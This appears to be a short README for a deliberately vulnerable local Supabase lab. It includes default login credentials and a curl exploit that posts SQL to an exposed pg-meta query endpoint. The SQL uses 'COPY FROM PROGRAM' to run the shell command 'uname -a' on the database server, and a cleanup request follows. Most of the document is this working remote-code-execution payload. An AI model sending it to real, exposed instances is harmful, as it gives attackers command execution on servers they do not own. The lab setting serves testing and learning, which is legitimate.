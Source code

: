 # Start a Vulnerable instance
```bash
bash start.sh
```
# Access the exposed UI
Open your browser and navigate to `http://localhost:8001` to access the Supabase Exposed UI. Open `http://localhost:8000` to access the Supabase UI, username is `supabase` and password is `this_password_is_insecure_and_should_be_updated`
# Use the following command to run the exploit
```bash
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"CREATE TABLE filelist (filename text);\\nCOPY filelist FROM PROGRAM \'uname -a\';\\nSELECT * FROM filelist;","disable_statement_timeout":true}'

# cleanup
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"drop table filelist","disable_statement_timeout":true}'
```